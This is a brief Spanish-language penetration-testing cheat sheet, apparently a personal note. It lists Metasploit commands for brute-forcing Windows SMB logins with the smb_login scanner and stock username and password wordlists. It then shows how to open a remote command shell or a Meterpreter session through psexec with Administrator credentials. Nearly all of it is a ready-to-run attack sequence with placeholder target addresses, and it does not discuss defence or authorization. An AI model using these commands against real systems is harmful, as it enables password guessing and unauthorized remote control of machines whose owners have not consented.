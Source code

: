 --------
- tags: #smb #windows #bruteforce #psexec #metasploit #meterpreter 
---------

### Ataque de fuerza bruta con Metasploit

	msfdb run
	use auxiliary/scanner/smb/smb_login
	set RHOSTS x.x.x.x
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	set VERBOSE false
	run

### Autenticarse con psexec

	psexec Administrator@x.x.x.x cmd.exe
(pedirá la contraseña al ejecutarlo)

### Autenticarse con el psexec de Metasploit (meterpreter session)

	seach psexec 
	use exploit/windows/smb/psexec
	set RHOSTS x.x.x.x
	set SMBUser Administrator
	set SMBPass 123456789
	exploit
	